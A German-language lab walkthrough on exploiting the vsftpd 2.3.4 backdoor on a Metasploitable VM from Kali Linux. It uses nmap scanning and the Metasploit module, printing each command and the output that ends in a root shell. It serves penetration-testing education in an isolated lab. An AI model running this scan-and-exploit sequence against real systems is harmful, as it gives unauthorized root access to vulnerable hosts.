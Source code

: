 # FTP exploit (Kali Linux + Metasploitable)
#ITP 
Um zu erfahren, wie ein bestimmtes Netzwerk aufgebaut ist, kann `nmap <Netzwerk>` verwendet werden, um alle Hosts im angegebenen Netzwerk zu entdecken. Dies ermöglicht es uns, einen ausgewählten Host ins Visier zu nehmen.

Demonetzwerk scannen (unter Verwendung eines NAT-Netzwerks und zweier virtueller Maschinen):
```
nmap 10.0.2.0/24
```
Dieser Befehl listet alle Hosts in einem Netzwerk auf. Wir wählen `10.0.2.4` als unser Ziel aus.

Wie man einen Host auf bestimmte laufende Anwendungen scannt:
```bash
# the `sV` option adds the version of the service running.
# the `p` option contains a port range that is scanned.
nmap -sV -p 1-1000 10.0.2.4
```
Dies listet alle TCP- oder UDP-Anwendungen auf, die auf dem Ziel ausgeführt werden. Die Daten enthalten den Port, ob die Anwendung zugänglich ist, den Namen und die Version der Anwendung.

Hier ist ein Beispiel:
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sV -p 1-1000 10.0.2.4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-14 09:31 EDT
Nmap scan report for 10.0.2.4
Host is up (0.00046s latency).
Not shown: 988 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp  open  telnet      Linux telnetd
25/tcp  open  smtp        Postfix smtpd
53/tcp  open  domain      ISC BIND 9.4.2
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp open  rpcbind     2 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp open  exec        netkit-rsh rexecd
513/tcp open  login       OpenBSD or Solaris rlogind
514/tcp open  tcpwrapped
Service Info: Host:  metasploitable.localdomain; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```
Es laufen mehrere interessante (veraltete) Versionen bekannter Anwendungen. Die erste Anwendung ist bereits anfällig. Es handelt sich um einen FTP-Dienst der Version 2.3.4, der eine bekannte Schwachstelle aufweist. Das Metasploit-Framework bietet einen Exploit, der verwendet werden kann, um eine Reverse-Shell auf dem Host mit dieser verwundbaren Version von FTP zu erstellen.

So starten Sie das Metasploit-Framework:
```bash
msfconsole
```

Um eine bestimmte Version von FTP (2.3.4) zu exploitieren, müssen wir zunächst die vorhandenen Exploits im Metasploit-Framework ermitteln. Hierfür können wir den Befehl `search <Service> <Version>` verwenden.
```bash
search vsftpd 2.3.4

msf6 > search vsftpd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

```
Wie bereits erwähnt, ist diese Version von FTP angreifbar und gibt einen verwendbaren Exploit zurück.

So verwenden Sie diesen Exploit:
```
use exploit/unix/ftp/vsftpd_234_backdoor
```
Bevor wir jedoch fortfahren können, müssen wir den Host festlegen, der vom Exploit angegriffen werden soll.

Um zu überprüfen, ob der Host nicht festgelegt wurde, können Sie den Befehl `show options` eingeben. Dies zeigt mehrere Variablen an, wobei die Variable `RHOSTS` die Ziele enthält.
```bash
show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)

```

Wir müssen das Zielhost über `RHOSTS` angeben!! (10.0.2.4) Die Variable wird über den Befehl `set <Variable> <Wert>` festgelegt.
```
set RHOSTS 10.0.2.4
```
Um mit dem Exploiting zu beginnen, wird der Befehl `exploit` eingegeben.
```
exploit
```

Wir haben erfolgreich `msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit` durchgeführt.

```bash
[*] 10.0.2.4:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.0.2.4:21 - USER: 331 Please specify the password.
[+] 10.0.2.4:21 - Backdoor service has been spawned, handling...
[+] 10.0.2.4:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (10.0.2.15:34955 -> 10.0.2.4:6200) at 2023-09-14 09:42:08 -0400
```

Nach Eingabe dieses Befehls wird eine Reverse-Shell geöffnet.
Sie können überprüfen, ob dies funktioniert hat, indem Sie den Befehl `whoami` eingeben, der möglicherweise "root" ausgibt (daher haben Sie vollen Zugriff auf das System).

